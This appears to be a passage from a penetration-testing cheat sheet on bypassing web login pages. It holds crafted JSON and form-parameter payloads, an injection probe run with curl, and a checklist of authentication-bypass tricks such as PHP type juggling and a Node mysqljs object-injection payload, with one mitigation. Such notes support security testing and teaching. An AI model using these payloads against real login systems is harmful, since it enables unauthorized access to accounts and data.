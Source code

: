 100. JSON with credentials in scientific notation:
```
{
"login": 1e100,
"password": 1e100
}
```

102. Strings with octal values:
```
{
"login": "\141\144\155\151\156",
"password":"\160\141\163\163\167\157\162\144"
}
```
103. writeup
```
{
root:{
"username": "admin",
"password":"admin"
}
}
```

104. writeup
```
basic => username=admin
username[]=admin
username[0]=admin
username=admin&username=admin
delete username=admin

```

- LDAP injection
---
Always try the "\" character in login entries. It can trigger an SQL.
curl -d 'username=1\&password=1\' -X POST https :// login(.)domain(.)com
---
- ## Bypass regular login
If you find a login page, here you can find some techniques to try to bypass it:
* Check for `comments` inside the page (scroll down and to the right?)
* Check if you can directly access the restricted pages
* Check to not send the parameters (do not send any or only 1)
* Check the PHP comparisons error: `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* Change content type to json and send json values (bool true included)
  * If you get a response saying that `POST` is not supported you can try to send the `JSON` in the body but with a `GET` request with `Content-Type: application/json`
* Check nodejs potential parsing error (read [this](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
  * Nodejs will transform that payload to a query similar to the following one:
    ```sql
    SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` ``password=password=1; 
    ```
    which makes the password bit to be always true
  * If you can send a JSON object you can send "password":{"password": 1} to bypass the login
  * Remember that to bypass this login you still need to know and send a valid username
  * Adding `"stringifyObjects":true` option when calling `mysql.createConnection` will eventually block all unexpected behaviours when `Object` is passed in the parameter
* Check credentials:
  * Default credentials of the technology/platform used
  * 

---